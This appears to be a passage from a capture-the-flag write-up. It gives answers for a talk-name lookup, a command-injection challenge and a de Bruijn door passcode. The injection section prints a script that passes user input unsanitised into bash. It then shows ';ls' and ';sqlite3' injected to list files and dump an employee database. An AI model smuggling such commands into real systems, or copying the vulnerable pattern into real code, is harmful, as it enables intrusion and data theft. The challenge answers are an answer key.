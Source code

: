 Download `rejected-talks.csv` and search for the name of the talk.

```
qmt3,2,8040424,200,FALSE,FALSE,John,McClane,Director of Security,
    Data Loss for Rainbow Teams: A Path in the Darkness,1,11
```

## The Name Game
**The answer is `Scott`.**

Using option 2, it asks for a server address to `ping`. It's vulnerable to command injection. We can pass commands after `;`.

For example, passing `;ls`:

```
Validating data store for employee onboard information.
Enter address of server: ;ls
Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
menu.ps1  onboard.db  runtoanswer
onboard.db: SQLite 3.x database
```

We can see the vulnerable code inside `menu.ps1` for option 2.

``` powershell
cls
Write-Host "Validating data store for employee onboard information."
$server = Read-Host 'Enter address of server'
/bin/bash -c "/bin/ping -c 3 $server"
/bin/bash -c "/usr/bin/file onboard.db"
```

1. Inject `;sqlite3` to be dropped into the sqlite prompt.
2. `.open onboard.db` to open the db file
3. `.dump` to get everything.
4. Search for `chan`.

``` sql
INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,
    'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');
```

----------

# 3. de Bruijn Sequences
**Morcel says `Welcome unprepared speaker!`.**

## Door Passcode
**Pass code is `0120`.**

Proxy the requests with Burp or open up the browser's console as you enter a passcode. Symbols correspond with `0123`.
